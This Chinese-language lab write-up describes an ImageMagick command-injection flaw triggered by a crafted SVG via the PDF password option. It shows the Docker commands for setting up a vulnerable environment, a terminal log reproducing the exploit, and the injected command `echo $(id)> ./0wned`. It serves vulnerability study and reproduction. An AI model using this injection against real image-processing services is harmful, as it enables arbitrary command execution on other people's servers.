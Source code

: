 # Imagemagick PDF密码位置命令注入漏洞

ImageMagick是一款使用量很广的图片处理程序，很多厂商都调用了这个程序进行图片处理，包括图片的伸缩、切割、水印、格式转换等等。研究者@insertScript 发现在Imagemagick 7.0.10-35到7.0.10-40、6.9.11-35 up到6.9.11-40处理PDF的过程中存在一处命令注入漏洞，通过构造好的SVG格式图片文件，即可在Imagemagick中注入任意命令。

参考链接：

- https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html

## 漏洞环境与复现

直接执行如下命令进入安装了Imagemagick 7.0.10-36的Linux环境：

```
docker-compose.exe run im bash
```

进入`/tmp`目录，对[poc.svg](poc.svg)进行格式转换，即可触发漏洞：

```
root@f200ec9e1c1e:/# cd /tmp/
root@f200ec9e1c1e:/tmp# ls
poc.svg
root@f200ec9e1c1e:/tmp# identify poc.svg
poc.svg SVG 700x700 700x700+0+0 16-bit sRGB 398B 0.000u 0:00.003
root@f200ec9e1c1e:/tmp# convert poc.svg poc.png
sh: 1: : Permission denied
convert: MagickCore/image.c:1168: DestroyImage: Assertion `image != (Image *) NULL' failed.
Aborted
root@f200ec9e1c1e:/tmp# ls
0wned  poc.svg
root@f200ec9e1c1e:/tmp#
```

此时命令`echo $(id)> ./0wned`已执行成功：

![](1.png)
